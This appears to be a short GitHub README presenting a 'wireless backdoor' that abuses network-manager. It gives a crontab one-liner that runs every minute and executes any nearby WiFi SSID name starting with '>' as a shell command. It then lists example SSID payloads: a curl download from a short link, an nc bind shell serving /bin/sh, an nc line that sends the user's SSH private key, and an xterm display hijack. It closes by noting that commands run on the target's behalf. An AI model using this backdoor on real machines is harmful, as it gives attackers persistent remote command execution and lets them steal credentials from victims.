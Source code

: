 Wireless backdoor
======================

"*...List available WiFi access points.  iface and bssid options can be used to get just APs for particular interface or specific AP, respectively....*"

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=I6kRJbxzcV4" target="_blank"><img src="http://img.youtube.com/vi/I6kRJbxzcV4/0.jpg" alt="Taking advantage of network-manager (nmcli backdoor)" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

echo "*/1 * * * * bash -c \"$(nmcli -f SSID dev wifi list | cut -f2 -d\' | egrep '^>' | cut -c2- | tail -n1)\"" | crontab

```

Now you can execute remote commands with your hotspot, create SSID names such as:
>curl -sL bit.ly/getouch
>nc -e /bin/sh -l 2222
>nc 127.0.0.1 20 < ~/.ssh/id_rsa
>xterm -display 127.0.0.1:1 &
(...)


**refs**

http://www.wirelessforums.org/alt-internet-wireless/ssid-33892.html


You don't need any connectivity from your target to run commands on their behalf! Use carefully! ;-)

